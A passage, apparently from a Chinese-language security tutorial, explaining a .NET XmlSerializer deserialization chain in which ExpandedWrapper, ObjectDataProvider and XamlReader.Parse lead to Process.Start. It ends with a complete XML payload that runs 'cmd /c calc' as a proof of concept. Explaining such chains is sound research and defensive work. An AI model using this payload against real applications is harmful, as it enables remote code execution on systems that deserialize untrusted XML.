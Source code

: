 ```c#
            xml.Deserialize(memoryStream);
            Console.ReadKey();
```
那么接下来只需将`xaml`与通过`objectProvider`调用`XamlReader.Parse`方法的字符串结合起来即可  
`XmlSerializer`的`Deserialize`方法调用时先创建`ExpandWrapper`对象，在为`ExpandWrapper`的属性`ProjectedProperty0`赋值时会调用`Read7_ObjectDataProvider`方法创建`ObjectDataProvider`对象，  
`ObjectDataProvider`对象创建过程中会调用到`MethodName`的`set`访问器，然后触犯`XamlReader`的`Parse`方法对`ResourceDictionary`进行解析创建`ObjectDataProvider`这个资源，从而再次访问到`ObjectDataProvider`的`MethodName`属性的`set`访问器  
从而调用到`Process`的`Start`方法，从而导致命令执行。
```Xml
<ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" >
           <ExpandedElement/>
    <ProjectedProperty0>
        <MethodName>Parse</MethodName>
        <MethodParameters>
            <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">
                <![CDATA[
					<ResourceDictionary 
						xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" 
						xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml" 
						xmlns:b="clr-namespace:System;assembly=mscorlib" 
						xmlns:c="clr-namespace:System.Diagnostics;assembly=system">
						<ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start">
							<ObjectDataProvider.MethodParameters>
								<b:String>cmd</b:String>
								<b:String>/c calc</b:String>
							</ObjectDataProvider.MethodParameters>
						</ObjectDataProvider>
					</ResourceDictionary>
					]]>
            </anyType>
        </MethodParameters>
        <ObjectInstance xsi:type="XamlReader"></ObjectInstance>
    </ProjectedProperty0>
</ExpandedWrapperOfXamlReaderObjectDataProvider>
```


